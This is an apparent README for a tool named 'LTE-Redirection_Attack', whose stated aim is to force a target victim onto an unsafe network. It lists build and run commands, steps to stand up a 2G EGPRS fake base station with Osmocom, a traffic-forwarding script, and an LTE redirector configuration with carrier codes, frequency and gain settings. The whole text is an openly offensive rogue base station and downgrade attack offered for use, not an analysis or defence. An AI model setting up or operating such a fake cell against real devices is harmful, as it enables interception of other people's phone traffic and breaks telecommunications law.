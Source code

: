 # LTE-Redirection_Attack
Force target victim to unsafe network

## Build

```bash
sudo ./build.sh
```


## Run

```bash
sudo ./run.sh
```

2G EGPRS Fake base Station :

In Osmocom Popped Terminal (change MCC//MNC accordingly in osmo-bsc.cfg osmo-bsc.cfg)

```bash
./runme.sh
osmo-trx-uhd
```

Forward your ip in host terminal:
```bash
./srsepc_if_masq.sh your_interface
```


LTE Node redirector

```bash
write mcc (replace)
write mnc (relace)
wirte tracking_area_code (replace)
write mcc (replace)
write mnc (replace)
write band (replace)
write dl_earfcn (replace)
write tx_gain 80
write rx_gain 30
start
``` 
